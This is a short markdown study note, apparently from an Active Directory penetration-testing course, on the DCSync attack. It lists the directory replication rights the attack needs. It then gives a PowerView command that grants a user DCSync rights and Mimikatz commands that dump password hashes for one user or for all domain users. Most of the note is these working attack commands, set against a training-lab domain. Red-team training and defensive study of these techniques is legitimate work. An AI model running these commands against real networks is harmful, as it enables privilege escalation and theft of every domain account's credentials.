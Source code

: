 ```yaml
---
category: Uncategorized
tags: []
---
```

#mimikatz 
- DC Sync requires only two rights on the domain object.
	- Replicating Directory Changes
	- Replicating Directory Changes All
	- Replicating Directory Changes in Filtered Set (Optional maybe)
- Changes to the ACL of the `domain object` will be logged.

## Replication Rights
We can give our user replication rights, using `powerview.ps1`
```powershell
. .\powerview.ps1
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity studentx -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
### Mimikatz
- Requires "Domain Admins" privs.
```powershell
# Dump credentails for a single user
lsadump::dcsync /domain:mydomain.local /user:<username>

# Dump credentials of all the domain user
log myfile.txt
lsadump::dcsync /domain:mydomain.local /all
```